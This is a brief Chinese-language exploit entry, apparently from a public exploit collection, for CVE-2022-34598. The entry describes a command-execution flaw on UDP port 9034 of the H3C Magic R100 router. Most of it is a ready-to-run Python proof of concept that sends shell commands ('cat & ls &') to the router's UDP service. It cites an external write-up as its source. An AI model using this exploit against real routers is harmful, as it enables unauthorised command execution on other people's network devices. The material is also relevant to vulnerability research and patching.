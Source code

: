 ## H3C_magic_R100路由器的UDPserver中存在命令执行漏洞(CVE-2022-34598)

H3C Magic R100 存在安全漏洞，该漏洞源于updserver服务打开了疑似官方后门的9034端口,允许攻击者执行任意命令。

## exp
```
import socket

Ip="0.0.0.0"
Port=9034

msg=b"cat & ls &"
server_address=(Ip,Port)

udp_socket=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_socket.sendto(msg,server_address)

udp_socket.close()
```

## 漏洞来源
- https://the-itach1.github.io/2022/09/05/CVE-2022-34598%20H3C%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/
